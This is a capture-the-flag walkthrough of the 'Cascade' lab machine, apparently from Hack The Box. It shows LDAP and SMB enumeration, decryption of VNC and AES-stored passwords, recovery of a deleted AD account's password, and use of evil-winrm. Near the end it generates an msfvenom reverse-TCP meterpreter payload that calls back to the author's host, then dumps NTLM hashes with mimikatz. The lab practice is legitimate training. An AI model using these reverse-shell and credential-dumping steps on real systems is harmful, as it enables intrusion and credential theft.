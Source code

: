 Machine IP: 10.10.10.182

========================================

The foothold took me ages, the password is hidden away in the results of this LDAP query.  
```bash
$ ldapsearch -x -h 10.10.10.182 -s sub -b 'DC=cascade,DC=local'
```

Obtain password encoded in base64:
```bash
$ echo -n 'clk0bjVldmE=' | base64 -d
rY4n5eva
```

I enumerate the shares:
```bash
$ smbclient //10.10.10.182/Data -U 'r.thompson'
```
Finding 'Meeting_Notes_June_2018.html':
```html
<p>-- We will be using a temporary account to
perform all tasks related to the network migration and this account will be deleted at the end of
2018 once the migration is complete. This will allow us to identify actions
related to the migration in security logs etc. Username is TempAdmin (password is the same as the normal admin account password). </p>
```

I also find VNC Install.reg. I open it in windows because it didn't work properly in linux.
Find obfuscuted password inside:
"Password"=hex:6b,cf,2a,4b,6e,5a,ca,0f

Googling about this VNC application takes me here:
https://github.com/frizb/PasswordDecrypts

```bash
msf5 > irb
[*] Starting IRB shell...
[*] You are in the "framework" object


>> fixedkey = "\x17\x52\x6b\x06\x23\x4e\x58\x07"
>> "\u0017Rk\u0006#NX\a"
=> "\x17Rk\x06#NX\a"
>> require 'rex/proto/rfb'
=> true
>> Rex::Proto::RFB::Cipher.decrypt ["6bcf2a4b6e5aca0f"].pack('H*'), fixedkey
=> "sT333ve2"
```

The password for s.smith is sT333ve2, I login with WindowsRM but don't see much so I go back to the initial ports for enumeration - this time using steve's credentials.

I come across the audit share:

```bash
$ smbclient //10.10.10.182/Audit$ -U 's.smith'
```

I find a database file, Audit.db - looking through with SQLite I see a password:

uname: ArkSvc	

pwd: BQO5l5Kj9MdErXx6Q6AGOw== 

Using a .NET decompiler (dotpeek) to reverse engineer the binary, I found the symbol 'DecryptString' which decrypts the password. 

I also find the IV and Key:
```c#
  string EncryptedString = Conversions.ToString(sqLiteDataReader["Pwd"]);
    try {
        str = Crypto.DecryptString(EncryptedString, "c4scadek3y654321"); //IV
    }
```

So I used the DecryptString function to Decrypt the password found earlier:
```c#
using System;
using System.IO;
using System.Security.Cryptography;
using System.Text;

namespace Decrypt
{
    class Dec
    {
        static void Main(string[] args)
        {
            string str = DecryptString("BQO5l5Kj9MdErXx6Q6AGOw==", "c4scadek3y654321");
            System.Console.WriteLine("DECRYPTED PASSWORD:");
	        System.Console.WriteLine(str);
        }

        static string DecryptString(string EncryptedString, string Key)
        {
            byte[] buffer = Convert.FromBase64String(EncryptedString);
            Aes aes = Aes.Create();
            aes.KeySize = 128;
            aes.BlockSize = 128;
            aes.IV = Encoding.UTF8.GetBytes("1tdyjCbY1Ix49842");
            aes.Mode = CipherMode.CBC;
            aes.Key = Encoding.UTF8.GetBytes(Key);
            using (MemoryStream memoryStream = new MemoryStream(buffer))
            {
                using (CryptoStream cryptoStream = new CryptoStream((Stream)memoryStream, aes.CreateDecryptor(), CryptoStreamMode.Read))
                {
                    byte[] numArray = new byte[checked(buffer.Length - 1 + 1)];
                    cryptoStream.Read(numArray, 0, numArray.Length);
                    return Encoding.UTF8.GetString(numArray);
                }
            }
        }
    }
}
```

I run it, which gives me the password:

```console
DECRYPTED PASSWORD:
w3lc0meFr31nd

Press any key to close this window . . .
```

Login with evil-winrm:

```powershell
$ evil-winrm -i 10.10.10.182 -u ArkSvc -p w3lc0meFr31nd
```
During usual enumeration, I see that ArkSvc is part of the recycle bin group:

```console
*Evil-WinRM* PS C:\> net user ArkSvc 
Local Group Memberships      *AD Recycle Bin
```

Google says its possible to recover objects from the bin, I also saw an old email in the 'Data' share saying TempAdmin and the Admin account have the same password. 

Running:
```powershell
*Evil-WinRM* PS C:\> Get-ADObject -filter 'isDeleted -eq $true' -includeDeletedObjects -Properties *
```
Returns this:
```powershell
CanonicalName                   : cascade.local/Deleted Objects/TempAdmin
                                  DEL:f0cc344d-31e0-4866-bceb-a842791ca059
cascadeLegacyPwd                : YmFDVDNyMWFOMDBkbGVz
CN                              : TempAdmin
                                  DEL:f0cc344d-31e0-4866-bceb-a842791ca059
ObjectGUID                      : f0cc344d-31e0-4866-bceb-a842791ca059
objectSid                       : S-1-5-21-3332504370-1206983947-1165150453-1136
primaryGroupID                  : 513
...
```

The password is encoded in base64, decode the password:
```console
$ echo -n YmFDVDNyMWFOMDBkbGVz | base64 -d
baCT3r1aN00dles
```

Login to the admin account:
```powershell
*Evil-WinRM* PS C:\Users\Administrator\Desktop> type root.txt
31a8cd9bf4e4772c45f2bd5a96ae20ba
```

Done!

Also wanted to quickly grab the administators NTLM hash, it's easier if we have a meterpreter shell:

Generate payload:

```bash
$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.148 LPORT=5959 -f exe -o shell.exe
```

Upload and execute with Evil-WinRM while listening on msf.

```powershell
*Evil-WinRM* PS C:\Users\Administrator\Desktop> upload /cascade/shell.exe
*Evil-WinRM* PS C:\Users\Administrator\Desktop> ./cascadeadmin.exe
```

Dump the hashes out of memory:
```bash
msf5 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.14.148:5959 
[*] Sending stage (176195 bytes) to 10.10.10.182
[*] Meterpreter session 1 opened (10.10.14.148:5959 -> 10.10.10.182:53327) at 2020-07-01 11:20:55 +1000

meterpreter > getsystem
...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).
meterpreter > ps

Process List
============

 PID    PPID    Name        Arch  Session       User                      Path
 ---    ----    ----        ----  -------       ----                      ----
 1384   520     dns.exe     x64      0          NT AUTHORITY\SYSTEM       C:\Windows\System32\dns.exe

meterpreter > migrate 1384
[*] Migrating from 2868 to 1384...
[*] Migration completed successfully.

meterpreter > load mimikatz 
Loading extension mimikatz...[!]
Success.
meterpreter > mimikatz_command -f samdump::hashes
Ordinateur : CASC-DC1.cascade.local
BootKey    : 3c67174689c6b5a53b5e3227e338e2ad

Rid  : 500
User : Administrator
LM   : 
NTLM : d256a4c6553e66da3c7872179eeb7d26
```

Done.

Thanks to VBScrub for this machine, it was one of the best i've done so far :) 
